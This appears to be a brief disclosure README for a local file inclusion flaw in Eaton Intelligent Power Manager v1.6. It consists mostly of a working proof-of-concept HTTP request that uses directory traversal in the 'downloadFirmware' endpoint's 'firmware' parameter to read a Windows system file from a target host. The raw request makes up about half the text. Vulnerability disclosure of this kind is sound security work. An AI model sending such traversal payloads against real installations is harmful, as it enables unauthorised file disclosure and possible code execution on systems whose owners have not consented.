 # Eaton-Intelligent-Power-Manager-Local-File-Inclusion
Local file inclusion in Eaton Intelligent Power Manager  v1.6 allows an attacker to include a file, it can lead to sensitive information disclosure, denial of service and code execution.

To exploit vulnerability, someone could use 'https://[HOST]/server/node_upgrade_srv.js?action=downloadFirmware&firmware=/../../../../../../../../../../' request to get some informations from the target.

```
GET /server/node_upgrade_srv.js?action=downloadFirmware&firmware=/../../../../../../../../../../windows/System32/drivers/etc/host HTTP/1.1
Host: 192.168.45.138:4680
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```


![alt tag](https://www.emreovunc.com/blog/en/eaton-power-manager-lfi.jpg)
